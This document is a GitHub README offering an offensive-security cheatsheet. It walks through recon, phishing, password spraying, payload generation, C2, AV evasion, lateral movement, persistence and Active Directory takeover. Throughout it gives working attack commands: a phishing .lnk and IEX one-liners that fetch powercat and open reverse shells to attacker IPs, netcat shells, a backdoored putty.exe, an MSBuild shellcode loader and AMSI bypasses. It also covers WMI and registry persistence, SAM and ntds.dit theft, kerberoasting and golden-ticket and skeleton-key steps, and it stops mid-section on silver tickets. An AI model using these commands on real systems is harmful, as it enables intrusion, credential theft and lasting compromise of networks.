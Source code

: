 # Toolbox
Offensive Security Toolbox + Cheatsheet

#### Windows Attacker Tooling Setup Script
``` powershell
Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/cdnet01/Toolbox/refs/heads/main/setup.ps1'))
```
^ this script is useful for setting up new windows attacker machines

## Recon and Scanning

<details>
<summary> google dorking </summary>

https://www.exploit-db.com/google-hacking-database
</details>

<details>
<summary> anymailfilder.com </summary>

useful for finding company email naming convention. 
</details>

<details>
<summary> gathercontacts </summary>

burpsuite extention that scrapes names from linkedin. requires manually searching for: 

`site:linkedin.com/in "company name"`
</details>

<details>
<summary> dnsrecon </summary>

``` bash
# enumerate dns records for a range, specifying the dns server.
dnsrecon -d domain.tld -n 8.8.8.8
```
</details>

<details>
<summary> knock.py </summary>

``` bash
# brute force subdomains, specifying a dns server
knockpy -d domain.com --bruteforce --dns 8.8.8.8

# conduct "recon" against a domain and save results
knockpy -d domain.com --recon --save foldername
```
</details>

<details>
<summary> sublist3r </summary>

``` bash
# brute force subdomains
sublist3r -d domain.com
```
</details>

<details>
<summary> ffuf </summary>

``` bash
# brute force subdomains via host header, filtering out 404 responses.
ffuf -w subdomains.txt -u http://domain.com/ -H "Host: FUZZ.domain.com" -fc 404
```
</details>

<details>
<summary> masscan </summary>

``` bash
# scan entire /8 range on all ports. set rate to a fast but "safe" limit and output as binary (saves space)
masscan -p 0-65535 --rate 15000 10.0.0.0/8 -oB filename.bin

# convert binary output into a greppable format
masscan --open --readscan filename.bin -oG filename.gnmap

# from here, you can grep for live hosts, open ports, and more.
grep /open/ filename.gnmap | cut -d ' ' -f 2 | sort -uV > livehosts.txt
```
</details>

<details>
<summary> nmap </summary>

``` bash
# without using host discovery, SYN connect scan on range and only output open ports.
sudo nmap -Pn -sT --open 10.140.21.1-255

# full service scan on a /24 range. output in all formats (grep-able, xml, binary)
sudo nmap -sV 10.10.20.0/24 -oA filename

# view all NSE scripts
ls /usr/share/nmap/scripts/*.nse

# run smb discovery
sudo nmap -Pn -p445 --open --script=smb-os-discovery.nse 10.140.13.27

# privide a file containing rfc1918 rangesm, then DNS reverse lookup and output into grep-able file
namp -iL rfc1918.txt -sL --dns-servers 10.10.14.98 -oG
```
</details>

<details>
<summary> eyewitness </summary>

``` bash
# feed an xml list of hosts to be scanned for webpages
EyeWitness.py --web -x filename.xml

# feed a newline separated list of domains 
eyewitness --web -f domains.txt --threads 10
```
</details>

<details>
<summary> smtp enumeration </summary>

``` bash
# connect to a host running smtp
nc -nv 192.168.50.8 25

# ask the smtp server to verify an email address
VRFY root
```
</details>

<details>
<summary> snmp enumeration </summary>

``` bash
# scan for snmp (runs on UDP)
sudo nmap -sU --open -p 161 192.168.50.1-254 -oG open-snmp.txt

# brute force a list of ips
echo public > community
echo private >> community
echo manager >> community
for ip in $(seq 1 254); do echo 192.168.50.$ip; done > ips
onesixtyone -c community -i ips

# check a specific host
snmpwalk -c public -v1 -t 10 192.168.50.151
```
</details>

## Phishing

<details>
<summary> Website Cloning </summary>

We’ll use -E to adjust file extensions to match MIME types, -k to convert links to local copies, and -K to save originals with a .orig extension. With -p, we’ll grab all assets needed to view the page. The -e robots=off option ignores robots.txt. We’ll allow external host downloads with -H, but restrict them to the zoom.us domain via -Dzoom.us. Finally, -nd saves everything in a flat directory in the current working directory.

```bash
wget -E -k -K -p -e robots=off -H -Dzoom.us -nd "https://zoom.us/signin#/login"
```
</details>

<details>
<summary> config.Library-ms </summary>

setup a webdav listener on the attacking machine

```bash 
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

create a file named 'config.Library-ms' with the following contents:
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

create a .lnk file, entering the following into the input field and name it 'automatic_configuration'
``` powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```

Next, we'll start the Python3 web server on port 8000 to serve powercat.ps1, WsgiDAV for our WebDAV share to serve the the automatic_configuration.lnk and config.Library-ms files, and a Netcat listener on port 4444 to catch the reverse shell.

```bash
# download powercat
wget https://github.com/besimorhino/powercat/raw/refs/heads/master/powercat.ps1

python3 -m http.server
```

copy the automatic_configuration.lnk and config.Library-ms to WebDAV directory. In a normal assessment we would most likely send the library file via email but for this example, we'll use the \\192.168.50.195\share SMB share to simulate the delivery step.

To upload the library file to the SMB share, we'll use smbclient with the -c parameter to specify the put config.Library-ms command. Before we execute smbclient, we need to change our current directory to the library file's directory. We'll also delete the previously created test.txt file from the WebDAV share.

``` bash
cd ~/webdav

smbclient //192.168.50.195/share -c 'put config.Library-ms'
```


</details>

## Password Attacks

<details>
<summary> cewl.rb </summary>

Use CeWL to spider a target website and build a unique wordlist to use for cracking
</details>

<details>
<summary> hydra </summary>

``` bash
# trim word list with hydra's pw-inspector. min password length set to 8, at least 3 critera must be met, and set criteria to (l) lowercase, (u) uppercase, (n) numbers, (p) printable chars, (s) special chars.
pw-inspector -i breachdata.txt -o trimmed.txt -m 8 -c 3 -lunps

# password spray SMB on many hosts using username file
hydra -L users.txt -p 'p@ssw0rd' -M windows-hosts.txt smb2

# password spray a domain controller
hydra -L users.txt -p Summer2025! -m workgroup:{name} 10.140.10.2 smb2

# check valid creds against a list of hosts
hydra -m workgroup:{company} -l username -p password -M smbservers.txt smb2

# attack ssh
hydra -L users.txt -P passwords.txt ssh://102.168.1.38
```
</details>

<details>
<summary> ffuf </summary>

``` bash
# find usernames matching on a response containing "username already exists"
ffuf -w users.txt -X POST -d "username=FUZZ&password=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://domain.com/login -mr "username already exists"

# brute force web login creds
ffuf -w users.txt:W1,passwords.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://domain.com/login -fc 200
```
</details>

<details>
<summary> netexec </summary>

``` powershell
# use netexec to enumerate password and user list against a desired service (in this case, smb)
nxe.exe -u "C:\usernames.txt" -p "C:\passwords.txt" -d domain.com --continue-on-success --no-bruteforce 10.20.13.4
```
</details>

<details>
<summary> hashcat </summary>

Effective rulesets can be found in ```/usr/share/hashcat/rules```

``` bash
# use some rules against a password list 
hashcat -r demo2.rule --stdout demo.txt

# crack kerberos TGS-REP hash (output from GetUserSPNs.py) and append 4 digits to the passwords 
hashcat -m 13100 -a 6 hashfile.txt passwordlist.txt ?d?d?d?d
```
hash types can be found at: https://hashcat.net/wiki/doku.php?id=example_hashes

useful hash modes (-m value):

- 1000: NTLM
- 5600: NTLMv2-SSP
- 13100: Kerberos RC4 TGS Ticket (denoted by $krb5tgs$23$)

</details>

## Initial Access
Ports of interest

- 22 - SSH
- 135 - RPC
- 139, 445 - SMB
- 3389 - RDP
- 5985, 5986 - WMI/WinRM

<details>
<summary> impacket </summary>

```bash 
# connect to mssql server and specify the domain controller ip
mssqlclient.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# connect to smb server
smbclient.py domain.com/username:password@10.13.12.3

# execute code using the psexec service 
psexec.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# execute code using the smb service
smbexec.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# execute code using wmic
wmiexec.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# setup an smb listenter, and run a command on a target using captured hash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```
</details>

<details>
<summary> netexec </summary>

``` powershell
# use netexec to enumerate rids
nxe.exe smb 10.140.13.3 -u username -p 'password' --rid-brute

# list shares
netexec smb 10.140.13.3 -u username -p 'password' --shares
```
</details>

<details>
<summary> runas </summary>

``` powershell
# (run this as administrator) launch a cmd shell that will execute all network communication with the injected credentials for authentication.
runas.exe /netonly /user:domain.com\username cmd.exe
```
</details>

<details>
<summary> evilwinrm </summary>

``` bash 
evil-winrm -i 10.13.10.3 -u "username" -p "password"
```

</details>


<details>
<summary> xfreerdp </summary>

``` bash
# rdp into a server ignoring any self signed certs
xfreerdp /u:username /p:password /v:10.230.21.12 /cert:ignore /dynamic-resolution
```
</details>

<details>
<summary> netcat </summary>

``` bash
# open listener for reverse shell on attacker machine
nc -lvp 4444

# shovel the shell from the target to the attacker
nc 192.168.1.31 4444 -e /bin/bash
```
</details>

## Payloads
common payload types: 

1. office macros
2. office auto DDE (default on excel and outlook)
3. ISO images 
4. zip files (often encrypted)
5. lnk files with rundll32

<details>
<summary> msfvenom </summary>

``` bash 
# view payload formats
msfvenom --list formats

# generate malicious installer file
msfvenom -p windows/meterpreter/reverse_http lhost=ATTACKER_IP lport=8976 -f msi -o setup.msi

# backdoor a legit exe. The binary will still work as usual but execute an additional payload silently.
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=10.209.28.34 lport=4444 -b "\x00" -f exe -o puttyX.exe
```
</details>

<details>
<summary> genisoimage </summary>

``` bash
# place payload inside of an iso container
genisoimage -o installer.iso setup.msi
```
</details>

## Command & Control
<details>
<summary> metasploit </summary>

``` bash
# setup multi handler
use exploit/multi/handler

# set payload 
set PAYLOAD windows/meterpreter/reverse_http

# view config
show options

# allow listener to receive multiple connections without having to restart it
set ExitOnSession false

# meterpreter commands
sysinfo
getuid
ps
# migrate to a new process
migrate -N explorer.exe
# start keylogger
keyscan_start
keyscan_dump
# file control
upload local_filename
download remote_filename
edit remote_filename
```
</details>

<details>
<summary> sliver </summary>

``` bash
# setup an https listener
https 

# generate an exe payload to only run for a specified username
generate --os windows --name filename --limit-username user1 --http LISTENING_ADDR

# generate a dll payload (run dll payload on victim with: regsvr32 filename.dll)
generate --os windows --arch 64bit --format shared --http https://ATTACKER_IP

# view payload 
impants

# view sessions
sessions

# use a session (use first few letters of session id)
use 1b
```
</details>

## Evasion

<details>
<summary> shellter </summary>

Shellter is a dynamic shellcode injection tool and one of the most popular free tools capable of bypassing antivirus software.

``` bash
apt-cache search shellter
sudo apt install shellter
sudo apt install wine
sudo dpkg --add-architecture i386 && apt-get update && apt-get install wine32

# If we are using an ARM processor, we need to a slightly different set of commands.
sudo apt install wine
sudo dpkg --add-architecture amd64
sudo  apt install -y qemu-user-static binfmt-support
sudo apt-get update && apt-get install wine32
```
</details>

<details>
<summary> Powershell Memory Injection </summary>

A basic templated script that performs in-memory injection is shown in the listing below. The script starts by importing VirtualAlloc and CreateThread from kernel32.dll as well as memset from msvcrt.dll. These functions will allow us to allocate memory, create an execution thread, and write arbitrary data to the allocated memory, respectively. We will allocate the memory and execute a new thread in the current process (powershell.exe), rather than a remote one.

``` powershell
# run this within the x86 version of powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

<place shellcode here>

```
Generate powershell reflection shellcode 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f psh-reflection
```

</details>

<details>
<summary> msbuild.exe </summary>

``` powershell
# if msbuild is enabled, it can be used to execute arbitrary shellcode. first, lets find msbuild
ls C:\Windows msbuild.exe -Recurse 2>$null | % FullName

# if found, chose either a 32 bit or 64 bit version. whatever version is chosen, shellcode needs to match. Once you have created your xml build.xml file, you can run it
C:\Windows\Microsoft.NET\assembly\GAC_32\MSBuild\v4.0_4.0.0.0__b03f5f7f11d50a3a\MSBuild.exe C:\build.xml
```
generate shellcode
``` bash
# generate an msfvenom payload in csharp. this will output a byte format compatible with c#
msfvenom -p windows/meterpreter/reverse_tcp lhost=eth0 lport=9871 -f csharp | tee /tmp/payload.txt

# add the output of msfvenom to the below build.xml file where it says "// PUT SHELLCODE HERE"

# setup your listener 
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 9871
```

build.xml (without placing code on disk)
``` xml
<Code Type="Class" Language="cs" Source="\\19.21.28.12\webdav\calc.cs">
```

build.xml withshellcode
``` xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
 
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask
        {         
          private static UInt32 MEM_COMMIT = 0x1000;          
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
          [DllImport("kernel32")]
            private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
          [DllImport("kernel32")]
            private static extern IntPtr CreateThread(            
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId           
            );
          [DllImport("kernel32")]
            private static extern UInt32 WaitForSingleObject(           
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );          
          public override bool Execute()
          {
            // PUT SHELLCODE HERE
 
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)buf.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(buf, 0, (IntPtr)(funcAddr), buf.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;
            IntPtr pinfo = IntPtr.Zero;
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```
</details>

<details>
<summary> AMSI Bypassing </summary>

``` powershell
# AMSI (antimalware scan interface) was addedd in powershell version 3, previous version wont have it. For example, the following command (run from cmd) wont trigger AMSI
powershell -version 2 -command " 'amsiutils' " 

# String modification will also work to bypass amsi. For example, the following powershell command wont trigger signatures
"Invoke"+"-Mimikatz"
```
</details>

<details>
<summary> Comment Stripping </summary>

``` powershell
# by removing comments, some AV/EDR may fail to signature certain things
PowerStripper.exe bad_script.ps1
```
</details>

<details>
<summary> Testing Windows Defender </summary>

``` powershell
# making modifications to a payload until it no longer triggers windows defender is another option. This tool will show the exact byte that triggered defender 
DefenderCheck.exe payload.exe
```
</details>

<details>
<summary> chameleon </summary>

``` powershell
https://github.com/klezVirus/chameleon
```
</details>


## Situational Awareness
<details>
<summary> linux </summary>

``` bash
cat /etc/passwd
sudo -l
# recursively search for a case insensitive filename from root directory
find / -type f -iname *.db
# recuresiveley search files for secrets from root directory
grep -Inri -e passw -e secret -e key / 2>/dev/null
# find SUID files
find / -perm -4000 -ls 2>/dev/null
# find writable config files
find /etc -perm 2
# find readable bash histories 
find /home -name .bash_history -perm 4 2>/dev/null
# find writable authorized hosts files
find /home -name authorized_hosts -perm 2 2>dev/null
```
</details>

<details>
<summary> windows </summary>

``` bat
rem show DNS details
ipconfig /displaydns

rem show all user accounts (local or domain)
net user
net1.exe user
net user /domain

rem show information about a specific user (local or domain)
net user [username]
net user [username] /domain

rem list all groups (local or domain)
net localgroup
net group /domain

rem show membership of a specific group (local or domain)
net localgroup "groupname"
net group "groupname" /domain
net group "Domain Admins" /domain

rem show password policy (local or domain)
net accounts
net accounts /domain

rem add a user
net user [username] password /add

rem add user to local admins
net localgroup administrators [username] /add

rem show accounts with a bad password login count > 0
Get-ADObject -Filter 'badPwdCount -gt 0' -Server domain.com

rem show firewall settings
netsh firewall show state
netsh firewall show config
netsh advfirewall show allprofiles state

rem show scheduled tasks
schtasks /query /fo LIST /v

rem show patch level 
wmic qfe get Caption,Description,HotFixID,InstalledOn

rem find file recursively
dir /s *name*

rem find secrets recursiveley
dir /s *pass* == *cred* == *vnc* == *.config*

rem query for SPNs
setspn.exe -T * -Q */*

rem use sysinternals adexplorer to fetch active directory information
ADExplorer.exe 

rem look for keepass database
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

### Microsoft Management Console

This native windows tool can be used in order to enumerate active directory. In order to install the software:
1. Press Start
2. Search "Apps & Features" and press enter
3. Click Manage Optional Features
4. Click Add a feature
5. Search for "RSAT"
6. Select "RSAT: Active Directory Domain Services and Lightweight Directory Tools" and click Install

You can start MMC by using the Windows Start button, searching run, and typing in MMC

(if running with runas on the attacker machine, you will need to configure the forrests. if running on a domain joined machine, some of this can be skipped.)

In MMC, we can now attach the AD RSAT Snap-In:

1. Click File -> Add/Remove Snap-in
2. Select and Add all three Active Directory Snap-ins
3. Click through any errors and warnings
4. Right-click on Active Directory Domains and Trusts and select Change Forest
5. Enter domain.com as the Root domain and Click OK
6. Right-click on Active Directory Sites and Services and select Change Forest
7. Enter domain.com as the Root domain and Click OK
8. Right-click on Active Directory Users and Computers and select Change Domain
9. Enter domain.com as the Domain and Click OK
10. Right-click on Active Directory Users and Computers in the left-hand pane
11. Click on View -> Advanced Features

If we had the relevant permissions, we could also use MMC to directly make changes to AD, such as changing the user's password or adding an account to a specific group.
</details>

<details>
<summary> impacket </summary>

``` bash
# extract list of all users
GetADUsers.py domain.com/username:password -dc-ip 10.140.10.2 -all

# enumerate user SPNs on a remote machine
GetUserSPNs.py domain.com/username:password -request -dc-ip 10.120.2.59
```
</details>

<details>
<summary> seatbelt.exe </summary>

``` powershell 
# get info on AV
seatbelt.exe AntiVirus

# get info on installations
seatbelt.exe InstalledProducts

# get system info
seatbelt.exe -q -group=system

# show commands that can be run against remote computers
seatbelt.exe -q | findstr +

# launch a module against a remote computer
seatbelt.exe UAC 'computername=10.140.12.13' -username=company\user -password=password
```
</details>

<details>
<summary> bloodhound </summary>

``` bash
# using python tooling, remotely retreive AD information for loading into bloodhound
bloodhound-python -d domain.com -u username -p password -c ALL -ns 10.10.192.2

# using c# tooling (ps1 tooling also available), retreive AD infomation for loading into bloodhound and do not touch domian controllers (better for evasion)
Sharphound.exe --CollectionMethods All --Domain domain.com --ExcludeDCs

# start bloodhound application
./BloodHound
```
</details>

## Lateral Movement
<details>
<summary> windows - living off the land </summary>

``` bat
rem using ping, scan a network range for live hosts (from 1-254)
for /l %i in (1,1,254) do @ping 192.168.1.%i -w 10 -n 1 | find "Reply"

rem powershell one-liner to scan a host for open ports
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.50.151", $_)) "TCP port $_ is open"} 2>$null

rem enable clientside WinRM components (enabled by default on windows serverside, but not on clients)
Enable-PSRemoting

rem enable CredSSP
winrm set winrm/config/client/auth '@{CredSSP ="true"}'

rem trust any host
Set-Item WSMan:localhost\client\trustedhosts -value *
```
</details>

<details>
<summary> Permission Delegation </summary>

``` powershell
# if a compromised user account has "genericwrite" for a group (found using bloodhound), then they can add themselves to that group
Add-ADGroupMember "IT Support" -Members "username"

# verify that it worked 
Get-ADGroupMember -Identity "IT Support"

# force the DC sync
gpupdate /force

# if the compromised account has inherited the ForceChangePassword Permission Delegation, we can change a group member's password
$Password = ConvertTo-SecureString "newpassword" -AsPlainText -Force 
Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password 
```
</details>

<details>
<summary> get SAM hive (local accounts) </summary>

``` bat
rem get SAM hive
reg save HKLM\SAM C:\SAM.hive

rem get the key for decrypting SAM
reg save HKLM\SYSTEM C:\SYSTEM
```
``` bash
# exfil the above files back to attcker machine, and dump the hashes
secretsdump.py -ntds ~/sam.hive -system ~/system -outputfile hashes.txt LOCAL
```
</details>

<details>
<summary> pass-the-hash (NTLM) </summary>

1. Obtain NT hashes from SAM or ntds.dit
2. Use the hashes themselves (with SMB) as the password with tools like psexec 
</details>

<details>
<summary> sniffing (NetNTLMv2 challenge/reponse) </summary>

1. start a fake SMB server
2. coerce NTLMv2 authentication (ip based) or wait for authentication (vuln scanners), or embedding a remote picture (hosted on your smb shared) in a word document
3. challenge the client, record response 

#### responder
``` bash
# assuming the attacker is on the same network as the target, Responder can resolve any LLMNR requests and capture NTLMv2 hashes.
sudo Responder.py -I eth0

# once running, once the victim attempts to connect to a system (via SMB)that does not exist, responder will posion the resolution of the host, and capture the hash. 

# once the hash is obtained, the hash can be cracked with hashcat
hashcat -m 5600 /tools/responder/logs/* /usr/share/rockyou.txt
```
#### pcap
``` bash
# start listener on port 445 on attacker machine 
sudo tcpdump -nv -w winauth.pcap port 445

# extract hashes from pcap
sudo /pcredz/pcredz -vf winauth.pcap

# crack NTLMv2 challenge/response
hashcat -m 5600 /pcredz/logs/NTLMv2.txt passwords.txt 
```
</details>

<details>
<summary> kerberoast </summary>

``` bash
# find user accounts (not computer accounts) who have registered SPNs (or get them from bloodhound)
GetUserSPNs.py domain.com/username:password -request -dc-ip 10.120.2.59 > spns.txt

# extract just the TGS tickets from the GetUserSPNs output
grep krb5tgs spns.txt > tgs.txt

# GetUserSPNs will provide the TGS ticket, which can be cracked with hashcat (in this case prepend password guesses with a single digit)
hashcat -m 13100 -a 7 tgs.txt ?d rockyou.txt
```
</details>

<details>
<summary> pass-the-ticket (kerberos) </summary>

``` bash
# all we're doing here, is stealing a user's TGT and using it
# on the compromised user's machine running mimikatz, list TGT ticket
kerberos::tgt

# export the TGT ticket
kerberos::list /export

# on new system, load the stolen TGT ticket
kerberos::ptt ticket.kirbi

# now, in the same cmd prompt, you can authenticate to services as the compromised user
psexec \\dc01 cmd.exe
```
</details>

## Persistence
- create a new user/password
- add attacker ssh public key to authorized_keys file
- create a scheduled task
- create a WMI event consumer
``` powershell
# create an event filter (trigger called) "Updater" which looks for failed logins (event ID 4625) from "fakeuser"
$filter = SetWmiInstance -Namespace root/subscription -Class __EventFilter -Arguments @{EventNamespace = 'root/cimv2'; Name = "UPDATER"; Query = "SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_NTLogEvent' AND TargetInstance.EventCode = '4625' AND TargetInstance.Message LIKE '$fakeuser%'"; QueryLanguage = 'WQL'}

# setup the event consumer action (consumer)
$consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments @{Name = "UPDATER"; CommandLineTemplate = "C:\payload.exe"}

# setup the binding to look for the trigger and run the consumer
$FilterToConsumerBunding = Set-WmiInstance -NameSpace root/subscription -Class __FilterToConsumerBinding -Arguments @{Filter = $Filter; Consumer = $Consumer}
```
- add an executable/script to the windows startup folder
- registry keys
``` bat
rem these keys are often used for persistence
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
rem cmd autorun - when cmd loads, it looks for registry variables to execute first
HKCU\SOFTWARE\Microsoft\Command Processor\AutoRun
rem HKCU Load - not used in modern windows but still supported
HKCU\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows

rem example of adding a user registry key called "AppUpdateMon" which runs a malicious binary each time the user logs in
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "AppUpdateMon" /t REG_SZ /F /D "C:\payload.exe"
```


## Privelege Escalation
<details>
<summary> linux </summary>

1. [gtfobins](https://gtfobins.github.io/)
2. [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
3. cheatsheets. [here is a good one](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

</details>

<details>
<summary> windows </summary>

1. [LOLBAS](https://lolbas-project.github.io/#)
3. UAC Bypass (https://github.com/hfiref0x/UACME)
2. Unquoted Service Paths
``` bat
rem find unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
```
3. services whose files you can overwrite
3. DLL search order hijacking
3. [winpeas](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md)
4. group policy preferences file. msft publishes the [AES key](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be)
``` powershell
# find cpassword under the sysvol share in any xml file
Get-ChildItem -Path "$env:LOGONSERVER\sysvol" -Filter *.xml -Recurse | Select-String "cpassword"
```
7. Recovering Credentials from a PXE Boot Image
8. always install elevated registry setting
``` bat
rem This will only work if both registry keys contain "AlwaysInstallElevated" with DWORD values of 1.
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```
9. unattended install files
``` powershell
# unattended install files typically in these locations
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\windows\sysprep\sysprep.inf
c:\windows\sysprep\sysprep.xml
c:\windows\system32sysprep\Unattended.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
```
10. if administrator, escalate to SYSTEM
``` bat
psexec.exe -s cmd.exe
```
</details>

## Domination

<details>
<summary> DCSync </summary>

``` bat
rem using mimikatz, extract the krbtgt hash via replication using the Directory Replication Service Remote (DRSR) Protocol
lsadump::dcsync /user:krbtgt
```
</details>

<details>
<summary> skeleton key </summary>

``` bat
rem using mimikatz, a skelton key can be loaded into memory on a domain controller that allows anyone to authenticate as any user in the domain with the password "mimikatz"
privilege::debug
misc::skeleton
```
</details>

<details>
<summary> extract ntds.dit oneliner </summary>

``` bat
ntdsutil "ac in ntds" "ifm" "cr fu c:\mybackup" q q
```
</details>

<details>
<summary> extract ntds.dit (to be used for golden ticket) </summary>

target machine (domain controller):
``` bat
rem as administrator on a domain controller, list shadow copies
vssadmin.exe list

rem if no existing copies, create one. 
vssadmin.exe create shadow /for=c:

rem copy the ntds.dit file from the shadoy copy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit c:\temp\ntds.dit

rem in order to extract hashes from ntds.dit you need the encryption key from the system hive. save the key from the registry:
reg save hklm\system c:\temp\system /y
```
attacker machine:
``` bash
# now, extract the ntds.dit and system files from the dc (use smbclient.py or whatever works). Once obtained, on the attacker machine, dump hashes
secretsdump.py -ntds ~/ntds.dit -system ~/system -outputfile hashes.txt LOCAL

# alternatively, you could do all of the above remotely using secretsdump.py. specifically here, were looking for the krbtgt hash
secretsdump.py domain.com/username:'password'@10.20.10.10 -just-dc-user krbtgt

# --------- with the above hashes, we can conduct the following golden ticket attack --------- #

# get the SID for the domain (stop lookup after enumerating to 520)
lookupsid.py domain.com/username:'password'@10.20.10.10 520

# armed with the domain SID and the krbtgt AES key, we can create a golen ticket
ticketer.py -domain domain.com -domain-sid S-1-5-21-XXXXXXXXX-YYYYYYYYY -aesKey AES_KEY_HERE Administrator

# export the ticket to later be used by impacket 
export KRB5CCNAME=Administrator.ccache

# use the ticket with impacket against a fileserver on the domain and run a command remotely
wmiexec.py -k -no-pass -dc-ip 10.20.10.10 file01.domain.com hostname
```
</details>

<details>
<summary> silver ticket </summary>

``` bat
rem like above, obtain the domain SID
lookupsid.py domain.com/username:'password'@10.20.10.10 520

rem in this case, we want to obtain the aes256 hash for a computer account (in this case file01$)
secretsdump.py domain.com/username:password@10.20.10.10 -just-dc-user file01$

